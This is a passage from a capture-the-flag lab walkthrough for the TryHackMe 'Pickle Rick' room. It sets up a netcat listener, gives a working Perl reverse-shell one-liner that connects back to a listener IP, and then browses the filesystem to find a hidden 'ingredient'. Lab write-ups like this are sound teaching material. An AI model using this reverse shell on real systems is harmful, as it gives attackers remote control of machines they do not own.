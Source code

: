 ```
> netcat -nvlp 1234  
listening on [any] 1234 ...
```

From the above resource I used the PHP reverse shell code to get an connection

_(The bash and the netcat reverse shells scripts have also been found to work on this box as well)_

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

**Note:** The IP in the above code needs to be changed with the TryHackMe VPN IP Address which can be found using "ip a show tun0" under inet

![Netcat Listener|420](images/thm-pickle-rick/netcat-listener.png)

We have successfully setup a reverse shell. Lets look at the "clue.txt" file to see if we get an information as to where the other two ingredients might be hidden on the system.

```
$ cat clue.txt  
Look around the file system for the other ingredient.
```

We are told to look around the filesystem. Lets look at the home directory of the current user to see if we can find anything.

```
> cd /home/rick

> ls  
second ingredients

> cat "second ingredients"  
1 jerry tear
```

And we have found the second ingredient. Since the 2nd ingredient was in the home directory there is an high chance for the 3rd ingredient to be located in the root users home directory. We need root user privileges to be able to access that directory. Lets have a look at permissions that the user rick is given on the system.
